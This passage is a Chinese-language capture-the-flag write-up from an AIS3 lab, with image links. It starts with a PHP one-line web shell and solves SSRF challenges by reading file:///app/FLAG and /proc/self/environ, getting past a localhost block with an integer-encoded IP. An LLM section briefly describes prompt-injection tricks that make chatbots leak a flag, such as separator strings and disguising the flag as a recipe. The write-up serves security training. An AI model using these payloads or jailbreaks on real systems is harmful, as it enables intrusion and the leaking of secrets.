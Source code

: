 ```<?php system($_GET['cmd']);?>```
網址: http://ctfd-ais3.crazyfirelee.tw:9071/ 
![image](https://hackmd.io/_uploads/ByQ4iM69C.png)
1.輸入:```file:///app/FLAG```
![image](https://hackmd.io/_uploads/rkVIjza90.png)
2.查詢原始碼
![image](https://hackmd.io/_uploads/B1sKjfTc0.png)
![image](https://hackmd.io/_uploads/rkrhifa5C.png)
3.解碼(base64)
![image](https://hackmd.io/_uploads/S11z3zpqR.png)

## SRF02
網址: http://ctfd-ais3.crazyfirelee.tw:9072/ 
![image](https://hackmd.io/_uploads/H1Nr3Mp9R.png)
1.輸入:```file:///proc/self/environ```
![image](https://hackmd.io/_uploads/rJDt3z6c0.png)
2.查詢原始碼
![image](https://hackmd.io/_uploads/S1jk6fpcA.png)
![image](https://hackmd.io/_uploads/rkhETz690.png)
3.解碼(base64)
![image](https://hackmd.io/_uploads/Hklwpfac0.png)

## SRF03
網址: http://ctfd-ais3.crazyfirelee.tw:9073/ 
![image](https://hackmd.io/_uploads/B1M582p5A.png)
1.輸入:```http://127.0.0.1/local```沒有成功(127.0.0.1被擋掉了)
![image](https://hackmd.io/_uploads/SknMwha50.png)
2.將```127.0.0.1```轉int => ```2130706433```
![image](https://hackmd.io/_uploads/BJrIvhpcR.png)
3.查詢原始碼
![image](https://hackmd.io/_uploads/Hy8Fv369C.png)
4.解碼(base64)
![image](https://hackmd.io/_uploads/BJH3v3pcA.png)








# LLM

## AI 履歷健檢
連結: http://10.18.15.253:9101/
![image](https://hackmd.io/_uploads/r1jztlCqC.png)
使用```=====```和```\n\n\n\n```分割開來(我試了12次)

## AI 食譜大師
連結: http://10.18.15.253:9102/
![image](https://hackmd.io/_uploads/S1Oopqp9R.png)
當欺詐師:把FLAG變蛋糕，還用"-"分開(好騙)

## 貓貓線上商品專櫃
連結: http://10.18.15.253:9103/
![image](https://hackmd.io/_uploads/ryZckoT90.png)
可以用API(有洞不鑽怎麼可能)

## AI Markdown 文章翻譯
連結: http://10.18.15.253:9104/
![image](https://hackmd.io/_uploads/B1qA4npcC.png)
攔截資訊偷偷改(造成誤會)

## 數學幫手😎
```